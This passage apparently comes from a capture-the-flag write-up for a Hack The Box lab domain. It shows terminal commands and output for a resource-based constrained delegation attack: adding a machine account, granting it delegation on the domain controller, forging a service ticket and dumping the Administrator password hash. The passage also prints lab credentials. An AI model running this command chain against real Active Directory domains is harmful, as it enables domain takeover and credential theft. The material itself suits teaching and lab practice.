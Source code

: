 Great! We can create up to 10 machines

I'll create a computer with the name `Comp$` and password 'SomePassword!` using `addcomputer.py`

```terminal
[★]$ addcomputer.py -computer-name 'Comp$' -computer-pass 'SomePassword!' -dc-host "dc.support.htb" -domain-netbios "support.htb" ""support.htb/"support":"Ironside47pleasure40Watchful"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                                                                                                                         

[*] Successfully added machine account Comp$ with password SomePassword!.
```

Now I'll give my computer the delegation rights on DC$

```terminal
[★]$ rbcd.py -delegate-from 'Comp$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] Comp$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     Comp$        (S-1-5-21-1677581083-3380853377-188903654-5601
```

Now we can request a ticket as DC$.

```terminal
[★]$ getST.py -spn 'cifs/dc.support.htb' -impersonate 'dc$' 'support.htb/Comp$:SomePassword!'                                                                                           
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc$@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

We got the ticket, now we can use it to dump the nt hash of users using `secretsdump`.

```terminal
┌──[10.10.16.18]-[sirius💀parrot]-[25-07-19 12:16]-[~/ctf/htb/support]
└──╼[★]$ KRB5CCNAME=dc\$@cifs_dc.support.htb@SUPPORT.HTB.ccache secretsdump.py -k dc.support.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
```

We can use the administrator's hash to get a shell via winrm
